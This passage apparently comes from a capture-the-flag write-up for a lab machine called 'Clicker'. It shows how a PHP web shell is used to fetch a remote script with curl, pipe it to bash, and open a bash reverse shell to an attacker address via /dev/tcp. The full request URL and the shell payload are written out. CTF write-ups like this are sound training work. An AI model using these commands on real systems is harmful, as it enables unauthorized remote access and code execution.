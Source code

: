 We changed the extension of the exported data to php in order to be able to execute our payload.

After we send this request, it will give us the path of the exported data:

![](../assets/images/clicker/20230927122521.png)

Now let's go to that url and execute whatever command we want.

So we will do this command:

```bash
curl%20http://10.10.14.38/bashRev|bash
```

We open an http server locally to upload a bash reverse shell on the target machine .

![](../assets/images/clicker/20230927122758.png)

The content of bashRev file:
```
bash -i >& /dev/tcp/<attacker IP>/PORT 0>&1
```

Final request is:
```
http://clicker.htb/exports/top_players_pnj0jd5w.php?cmd=curl%20http://10.10.14.38:8000/bashRev|bash
```

And finally we get a reverse shell:

![](../assets/images/clicker/20230927123009.png)
